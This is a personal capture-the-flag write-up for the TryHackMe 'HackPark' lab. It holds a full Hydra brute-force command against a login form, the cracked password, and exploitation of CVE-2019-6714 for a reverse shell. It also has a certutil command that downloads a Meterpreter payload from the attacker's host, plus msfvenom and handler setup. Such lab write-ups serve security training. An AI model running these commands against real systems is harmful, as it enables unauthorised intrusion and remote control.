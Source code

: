 [TryHackMe \| HackPark](https://tryhackme.com/room/hackpark)

---
# Enumeration
## Nmap
```
nmap -p- 10.10.158.222
```

## Port 80 - Webserver
![[Pasted image 20251018151941.png]]

# Whats the name of the clown displayed on the homepage?
The hint indicates that we have to conduct a reverse image search of the image, a quick google search will provide sites like: tinyeye, etc. Paste the image and sources of other matches will be there
![[Pasted image 20251018152626.png]]
The Clown itself is from the movie IT, with the name: Pennywise

# Using Hydra to brute-force a login
![[Pasted image 20251018152750.png]]
The login page can be found at the URL: [Title Unavailable \| Site Unreachable](http://10.10.205.233/Account/login.aspx?ReturnURL=/admin/)

We have seen that the user "Administrator" created the clown post, so we can assume that that is a user which we can use to log into the website
Lets give it a try with Hydra
## What request type is the Windows website login form using?
1. We can inspect the login page using the firefox inspect feature of if we used burpsuite to capture the packet
![[Pasted image 20251018153257.png]]
We can also go in the request of the packet to see the full payload that we can use for Hydra
![[Pasted image 20251018155434.png]]

```
__VIEWSTATE=YDG4yvPxsI%2FrkHv%2BytjYF3gyLeQKch33DAhPlARC03EXcitJ8FQqPBAOYWWH%2BTwUBvOe9la0g%2BlgWMl3uzRSUANGcJ%2BoG04yDaEwPXUtJ7VSLlzUecxApyFCH95f%2F3zuTuUC8u2wvQ4qR%2FxLEiE0WNQuDpvbplBGdRA1qkYfNUI4tdlAbgqeVS4mvR%2B55SVn9GxLm0AzyScOSgQiZfbGq4FRMr1cGaiV3ZrvuATvH97TPjuSBeDyVIo4YbW3XiAYd34iFnmSPivFC%2FIt%2FBBrN3SKaOSyWPVKbO%2FBxaVRzaChAdFVBhVdEX0dhHDyne7IEaCqOsWyPsnLSss5iQ5LOqjd%2FasZHdRbp56BT0y06Idq7gU4&__EVENTVALIDATION=C%2Ba9uGa5lKAY3aX0i53V929ygcyRI0wSsXwFeqqUquOzRI8B3qDGsxiF7N02GETZgpLOfIJHP2gB6J9BCwdQx%2BqNOyejkDcTfUPZhblhNxkgfn1lqyWkA9RNNshY2DkDpUMOCe52ql2bQ4s6fF9smHx4RSo1a%2F7L8Yw6VWl99JHdTkww&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=test&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```
## Cracking POST Request Login Page with Hydra (http-post-form)
```
hydra -l <user> -P <password.txt> <ip-target> http-post-form "header_file_name:request:error_notif"

# Command

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.205.233 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

```
## Complete Hydra Command 
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.205.233 http-post-form "/Account/login.aspx:__VIEWSTATE=GlE2yCmLJhjxMS3WAapWzHpHopOnSZe%2Bql42iFWRXoiZ5H%2B8ev8wIrptaXJve3Sbd6pT%2FrwUgyiQoljyTpvaSFmerFfikAhX%2B0x7wPKeGvX%2Bln5s3lF2MiRyzfhkETMzMVqmG9YOF%2BAbgUUrv5BaI3M%2BnQEoVdHs68l%2BWv%2Fl1Kju7ufm&__EVENTVALIDATION=fHY6mqK6KeT8pJYrkCm%2FDIV5hhJF6aZ7UbhYd3Y4cdb0CgsyhEzYd6Pa1y8%2F463qYWZXFr0uMjTAP81waQE2U5kWlkKKjrEi8KYqWJBk0C%2F0Wmoo%2B0GtbYNAYGwQh%2F5bdiyauLB7eVBmo%2F%2BGKpFUGFB5GFJyiAvLS78nzJwIsoRgpDZY&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

![[Pasted image 20251018160029.png]]

### Password
```
login: admin   password: 1qaz2wsx
```

# Access to the Website Admin
![[Pasted image 20251018161322.png]]

The version of BlogEngine after looking around is:  3.3.6.0 

Lets find an exploit for this, simply search on google and look for the most common website like rapid7 or exploitdb

The CVE is: ***CVE-2019-6714***

# Using the public exploit, gain initial access to the server.

Who is the webserver running as?

How TF are we gonna do this? lol i think we will need to use the exploit that we just found and try to use it in a way to exploit this vulnerable webserver, so lets try our best.

1. Download the Exploit
2. Modify the exploit with out IP address and Port
	![[Pasted image 20251018205300.png]]
	1. Save it as PostView.ascx
3. Setup a simple listener 
	1. ![[Pasted image 20251018205456.png]]
4. Modify the post on the website
	1. ![[Pasted image 20251018205814.png]]
	2. ![[Pasted image 20251018205925.png]]
5. Trigger the Exploit
	1. According to the exploit explanation, to trigger the exploit we need to navigate to the following
	2. http://10.10.10.10/?theme=../../App_Data/files
	3. ![[Pasted image 20251018210222.png]]
	4. We will get a shell back on our Netcat Listener 
	5. ![[Pasted image 20251018210247.png]]
# Upgrading the Current Shell
1. Lets generate a MSFvenom payload 
2. Create a Meterpreter Listener 
3. Upload the payload via our current Netcat Shell

## Generate MSFVenom Payload
Since we already have a shell via netcat on the webserver, which is a windows machine, we can create a windows payload by using the following
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.9.0.124 LPORT=7777 -f exe -o reverse.exe
```
## Setup a http server to serve the payload
Lets set up the http.server hosting our payload so that we can download it from the target machine 
```
python3 -m http.server 9090
```
## Download the Pay Via the Netcat Shell
Using netcat, let us download the payload via the following command
```shell
certutil -urlcache -split -f http://10.9.0.124:9090/clown.exe C:\Windows\Temp\shell.exe
```
## Setup a Listener
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.9.0.124; set lport 7777; exploit"
```

